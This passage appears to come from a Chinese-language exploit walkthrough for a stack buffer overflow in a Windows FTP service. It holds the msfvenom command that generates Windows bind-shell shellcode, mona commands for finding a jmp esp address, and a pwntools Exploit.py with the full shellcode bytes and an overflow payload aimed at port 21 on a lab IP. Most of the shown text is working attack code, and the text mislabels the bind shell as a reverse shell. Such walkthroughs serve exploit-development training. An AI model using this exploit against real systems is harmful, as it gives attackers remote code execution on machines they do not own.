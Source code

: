 ##### 2. 生成 shellcode

利用 metasploit 生成 windows 反弹 shell 的 shellcode，排除坏数据’\x00\x0a\x0d’，以 c 语言格式输出，靶机 IP192.168.112.146

 

`msfvenom -p windows/shell_bind_tcp LHOSTS=192.168.112.146 LPORT=4444 -b '\x00\x0a\x0d' -f c`

 

![](https://bbs.pediy.com/upload/attach/202103/913279_8Y6SWY9SPWCYS44.png)

##### 3. 内存中查找 jmp esp 命令

使用 mona 插件查询 jmp esp 指令的地址

```
!mona jmp -r esp
#或者
!mona find -s "\xff\xe4" -m

```

![](https://bbs.pediy.com/upload/attach/202103/913279_V42NSNHHZEWXH7E.png)

 

从中选择一个地址 0x77D29353，作为跳板，跳转到栈上执行 shellcode

 

![](https://bbs.pediy.com/upload/attach/202103/913279_7RH33Y5S8FVMAAN.png)

 

最终 Exploit.py

```
from pwn import *
 
p = remote('192.168.112.146',21)
 
shellcode = (
"\xbf\xb9\x9b\xb3\x2f\xdb\xd2\xd9\x74\x24\xf4\x58\x33\xc9\xb1"
"\x53\x31\x78\x12\x83\xc0\x04\x03\xc1\x95\x51\xda\xcd\x42\x17"
"\x25\x2d\x93\x78\xaf\xc8\xa2\xb8\xcb\x99\x95\x08\x9f\xcf\x19"
"\xe2\xcd\xfb\xaa\x86\xd9\x0c\x1a\x2c\x3c\x23\x9b\x1d\x7c\x22"
"\x1f\x5c\x51\x84\x1e\xaf\xa4\xc5\x67\xd2\x45\x97\x30\x98\xf8"
"\x07\x34\xd4\xc0\xac\x06\xf8\x40\x51\xde\xfb\x61\xc4\x54\xa2"
"\xa1\xe7\xb9\xde\xeb\xff\xde\xdb\xa2\x74\x14\x97\x34\x5c\x64"
"\x58\x9a\xa1\x48\xab\xe2\xe6\x6f\x54\x91\x1e\x8c\xe9\xa2\xe5"
"\xee\x35\x26\xfd\x49\xbd\x90\xd9\x68\x12\x46\xaa\x67\xdf\x0c"
"\xf4\x6b\xde\xc1\x8f\x90\x6b\xe4\x5f\x11\x2f\xc3\x7b\x79\xeb"
"\x6a\xda\x27\x5a\x92\x3c\x88\x03\x36\x37\x25\x57\x4b\x1a\x22"
"\x94\x66\xa4\xb2\xb2\xf1\xd7\x80\x1d\xaa\x7f\xa9\xd6\x74\x78"
"\xce\xcc\xc1\x16\x31\xef\x31\x3f\xf6\xbb\x61\x57\xdf\xc3\xe9"
"\xa7\xe0\x11\x87\xaf\x47\xca\xba\x52\x37\xba\x7a\xfc\xd0\xd0"
"\x74\x23\xc0\xda\x5e\x4c\x69\x27\x61\x63\x36\xae\x87\xe9\xd6"
"\xe6\x10\x85\x14\xdd\xa8\x32\x66\x37\x81\xd4\x2f\x51\x16\xdb"
"\xaf\x77\x30\x4b\x24\x94\x84\x6a\x3b\xb1\xac\xfb\xac\x4f\x3d"
"\x4e\x4c\x4f\x14\x38\xed\xc2\xf3\xb8\x78\xff\xab\xef\x2d\x31"
"\xa2\x65\xc0\x68\x1c\x9b\x19\xec\x67\x1f\xc6\xcd\x66\x9e\x8b"
"\x6a\x4d\xb0\x55\x72\xc9\xe4\x09\x25\x87\x52\xec\x9f\x69\x0c"
"\xa6\x4c\x20\xd8\x3f\xbf\xf3\x9e\x3f\xea\x85\x7e\xf1\x43\xd0"
"\x81\x3e\x04\xd4\xfa\x22\xb4\x1b\xd1\xe6\xc4\x51\x7b\x4e\x4d"
"\x3c\xee\xd2\x10\xbf\xc5\x11\x2d\x3c\xef\xe9\xca\x5c\x9a\xec"
"\x97\xda\x77\x9d\x88\x8e\x77\x32\xa8\x9a")
 
# 0x77d29353 -> jmp esp
payload = 'a'*(0xfc-1) + "\x53\x93\xd2\x77" + "\x90"*16 + shellcode
 
```